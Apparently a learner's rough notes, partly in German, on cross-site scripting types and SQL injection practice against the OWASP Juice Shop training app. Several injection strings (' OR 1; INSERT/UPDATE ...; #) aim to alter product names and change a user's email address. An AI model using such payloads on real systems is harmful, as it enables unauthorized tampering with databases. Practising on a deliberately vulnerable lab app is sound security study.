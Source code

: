 

# XSS (=Cross-site Scripting) Attacks
- Schadwer zu anderem End user schicken
- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)


## Type von XSS
1. Stored / Persistent / Type 1: jected script is permanently stored on the target servers
2. Reflected / Non-Persistent / Type-II XSS
(3. DOM BASED XSS)


# TODOs für die Seite
- Insert the specified JS code into the database

INSERT INTO Products VALUES (1, 2, 3);
' OR 1; INSERT INTO Products VALUES ('1', '2', '3'); #
' OR 1; UPDATE Products SET Name='1' WHERE Name='Apple Juice (1000ml)'; #
' OR 1; UPDATE Products SET Name='1' WHERE id=1; #
UPDATE table_name SET smth ='smth@email.addr' WHERE user = 'admin';



id=1
name="Quince Juice (1000ml)"
createdAt="2016-12-30 06:59:28.000 +00:00"
deletedAt=null
description="Juice of the <em>Cydonia oblonga</em> fruit. Not exactly sweet but rich in Vitamin C."
id=15
image="quince.jpg"
name="Quince Juice (1000ml)"
price=4.99
updatedAt="2016-12-30 06:59:28.000 +00:00"


## Funktioniert irgendwie aus irgendeinem grund auch nicht.......
' OR 1; UPDATE Users SET email='altered@altered.de' WHERE email='jim@juice-sh.op';#
